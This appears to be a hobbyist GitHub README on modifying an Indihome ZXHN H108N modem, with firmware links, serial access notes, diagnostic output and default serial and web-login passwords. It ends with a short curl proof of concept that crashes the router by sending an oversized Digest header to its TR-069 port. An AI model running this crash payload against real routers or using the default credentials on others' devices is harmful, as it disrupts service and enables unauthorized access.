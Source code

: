 # Oprek Modem Indihome Huawei ZXHN H108N

Goal:

- Make it as Access Point, WAN From ethernet (not yet works)

Firmware:
- https://github.com/ndunks/kumpulan-firmware/tree/master/router

If you have Broadcom version, you can use OpenWRT:
https://openwrt.org/toh/zte/zxhnh108n

This device is Ralink chipset, No root access

## Serial Connection

No root access here.

![Huawei ZXHN H108N Serial Line](images/back-open-serial.jpg)

Password for Serial: theworldinyourhand

for web login: user: support, pwd: theworldinyourhand

**Some Information:**

```
ZTE> sys version

 RAS version: ZXHN H108NV4.0.1a_ZRQ_ID_D67                                     
 System   ID: $2.12.186.0(G94.BY.4)3.20.39.20  20140909_v004  [Sep  9 2014 10:12:52]
 romRasSize: 1664518 
 system up time:     0:10:20 (f273 ticks)
 bootbase version: VTC_SPI_8M1.16 |  2012/12/26

ZTE> sys atsh

RAS version            : ZXHN H108NV4.0.1a_ZRQ_ID_D67                                    
romRasSize             : 1664518
bootbase version       : VTC_SPI_8M1.16 |  2012/12/26
Product Model          : ZXHN H108N
Serial Number          : ZTEERQCG5V02440
MAC Address            : 343759D9B8D0
Default Country Code   : FF
Boot Module Debug Flag : 00
RomFile Version        : 16
RomFile Checksum       : 7076
RAS F/W Checksum       : 9605
SNMP MIB level & OID   : 050000000100000002000000030000000400000005
Main Feature Bits      : 86
Other Feature Bits     :
93 17 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00 13 00 00 00

ZTE> sys feature

IPX: yes
IP ONLY: no
AUI: no
AB ADAPTER: no
IDSL ONLY: no
IDSL: no
INTERNAL HUB: no
VLAN_8021Q[web]: no
PKT QoS[web]: no
ACL[web]: no
Filter[web]: no
ADSL[web]: yes
USB[web]: no
Firewall[web]: no
Reverse ETH Ports[web]: no
Half Bridge[web]: no
dy.fi DNS: yes
DDNS: yes
tr069: yes

```

## Rooting

**Vulnerabilities:**

- https://sudonull.com/post/59881-Too-many-cooks-or-hacking-the-Internet-with-TR-069


**Crash/Reboot PoC:**

``` bash
repeat(){ for i in {1..600}; do echo -n "$1"; done; }
curl -H "Authorization: Digest username=$(repeat x)" 192.168.1.1:7547/tr069

```